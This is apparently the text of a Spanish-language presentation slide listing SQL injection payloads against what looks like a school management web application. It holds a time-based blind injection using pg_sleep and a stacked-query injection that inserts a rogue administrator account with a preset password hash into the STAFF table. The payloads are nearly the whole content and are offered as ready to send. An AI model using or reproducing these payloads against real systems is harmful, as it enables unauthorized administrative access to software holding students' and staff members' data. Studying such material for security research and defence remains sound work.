

# Posibles Payloads a enviar
SQLi - Time Based:
sidefunc=update syear=111' OR (SELECT COUNT (pg_sleep(5)))=1--
SQLi - POST/SELECT:
sidefunc=update syear=111';
INSERT INTO STAFF (SYEAR,STAFF_ID,"first_name","last_name","username","password","profile","profile_id") values('2022','4','Hack',Er','Hacker','$6$6c0b492b4c64bc9e$sgHUN45tj7jyn72f94o4w/7rShoNgv9YpyEs3AqAFy3n4q1s89csSH6/cfLsg1XYenragKwVfT0LvkMoNO63I1','admin','1');
SELECT MARKING_PERIOD_ID FROM SCHOOL_MARKING_PERIODS WHERE MP='QTR